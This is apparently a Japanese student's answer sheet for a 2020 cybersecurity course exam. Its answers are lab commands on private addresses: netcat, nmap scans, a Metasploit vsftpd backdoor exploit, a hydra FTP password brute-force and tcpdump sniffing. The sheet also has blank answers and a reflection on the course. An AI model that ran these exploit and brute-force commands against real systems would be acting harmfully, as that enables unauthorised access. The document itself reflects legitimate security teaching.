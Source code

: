 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
#nc -lvp 5555
```
### クライアント側コマンド

```sh
#nc 192.168.33.3 5555 

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
#nmap -sP 192.168.33.0/24 

```

### 2. version scan

```sh
#sudo nmap -sV -O -p- 192.168.33.6 

```

## 問4 [Metasploit Framework]

```sh
#msfconsole,serch vsftpd,use exploit/unix/ftp/vsftpd_234_backdoor,show options,set RHOST 192.168.33.6,exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
#hydra -L user.list -P passwd.list -t 8 192.168.33.3 ftp 

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
#tcpdump -i eth0 -A host 192.168.33.6 and port http 80

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  -70   -->

```

## 問9 [講義の感想]

```md
<!-- -講義で学んだこと
	-仮想環境の構築
	-辞書攻撃によるパスワード解析
	-ポートスキャン
	-ファイルの展開
	-2つのOSの通信
　　 -全体を通しての感想
	-この講義でさまざまなハッキングやネットワークのしくみについて学ぶことができたが私は半分以上の事を理解することがまだできていないので自分はもっと勉強するべきだと改めて実感することができました。これからは家での予習復習をやっていこと思いました。  -->

```
